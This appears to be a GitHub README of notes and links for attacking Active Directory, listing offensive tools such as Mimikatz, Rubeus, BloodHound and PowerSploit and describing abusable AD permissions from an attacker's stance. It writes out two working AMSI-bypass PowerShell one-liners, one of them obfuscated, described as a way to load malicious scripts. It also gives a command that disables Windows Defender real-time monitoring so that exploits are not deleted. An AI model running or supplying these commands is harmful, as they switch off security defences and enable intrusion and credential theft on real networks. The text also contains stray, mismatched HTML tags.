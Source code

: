 # AD-Security-Resources

Bypass Execution Policy : 
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


Setting up active directory lab :  https://github.com/outflanknl/Invoke-ADLabDeployer 

Bypassing Powershell execution policy issues : </H2>

Github links - AMSI Bypass for loading malicious scripts:
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
  Something that works quickly 
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

This works !!!
(Thanks - https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation)
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

Detailed Article on this subject : https://blog.f-secure.com/hunting-for-amsi-bypasses/


Constrained Language Mode : 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

Check the below for bypassing this 
https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/



Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):
Set-MpPreference -DisableRealtimeMonitoring $true

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>

<p><h3>ACL Enumeration and escalation :</h3></p>
<p>Some of the Active Directory object permissions and types that we as attackers are interested in:</p>
<p><b>GenericAll</b> - full rights to the object (add users to a group or reset user's password)
<p><b>GenericWrite</b> - update object's attributes (i.e logon script)
<p><b>WriteOwner</b> - change object owner to attacker controlled user take over the object
<p><b>WriteDACL</b> - modify object's ACEs and give attacker full control right over the object
<p><b>AllExtendedRights</b> - ability to add user to a group or reset password
<p><b>ForceChangePassword</b> - ability to change user's password
<p><b>Self (Self-Membership)</b> - ability to add yourself to a group
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

AD Module :
  https://github.com/samratashok/ADModule

Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle




